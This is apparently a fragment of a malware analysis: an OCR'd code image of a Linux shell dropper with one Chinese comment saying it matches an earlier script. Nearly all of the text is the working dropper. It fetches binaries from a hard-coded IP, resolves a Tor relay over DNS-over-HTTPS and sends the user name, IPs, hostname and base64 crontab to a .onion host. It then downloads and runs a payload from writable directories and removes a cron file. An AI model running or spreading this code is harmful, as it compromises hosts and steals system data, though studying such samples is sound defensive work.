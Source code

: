 ```
curl -V || wget -q https://github.com/moparisthebest/static-curl/releases/download/v7.75.0/curl-amd64 -O $HOME/curl;chmod +x $HOME/curl
curl -V || kurl http://139.59.150.7:443/curl > $HOME/curl;chmod +x $HOME/curl
ss -v   || kurl http://139.59.150.7:443/ss   > $HOME/ss;chmod +x $HOME/ss
ss -v   || curl -s http://139.59.150.7:443/ss -o $HOME/ss;chmod +x $HOME/ss
ps      || curl -s http://139.59.150.7:443/ps -o $HOME/ps;chmod +x $HOME/ps

d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)
c=$(echo "curl -4fsSLkA- -m200")
t=$(echo "rxmxpzfkydkulhhqnuftbmf6d5q67jjchopmh4ofszfwwnmz4bqq2fid")

sockz() {
n=(doh.defaultroutes.de dns.hostux.net uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh.centraleu.pi-dns.com doh.dns.sb doh-fi.blahdns.com fi.doh.dns.snopyta.org dns.flatuslifir.is doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%10))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|grep -Ev [.]0|sort -uR|head -n 1)
}

fexe() {
for i in . $HOME /usr/bin $d /tmp /var/tmp ;do echo exit > $i/i && chmod +x $i/i && cd $i && ./i && rm -f i && break;done
}

u() {
sockz
f=/l/rd.$(uname -m)
x=./$(date|md5sum|cut -f1 -d-)
r=$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base64 -w0)
$c -x socks5h://$s:9050 $t.onion$f -o$x -e$r || $c $1$f -o$x -e$r
chmod +x $x;$x;rm -f $x
}

for h in tor2web.in tor2web.it onion.foundation onion.com.de onion.sh tor2web.su
do
if ! ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status; then
fexe;u $t.$h
ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status || (cd /tmp;u $t.$h)
ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status || (cd /dev/shm;u $t.$h)
else
break
fi
done
rm -f /etc/cron.d/systemdd

```

内容和分析过的脚本差不多，没有什么新的消息。
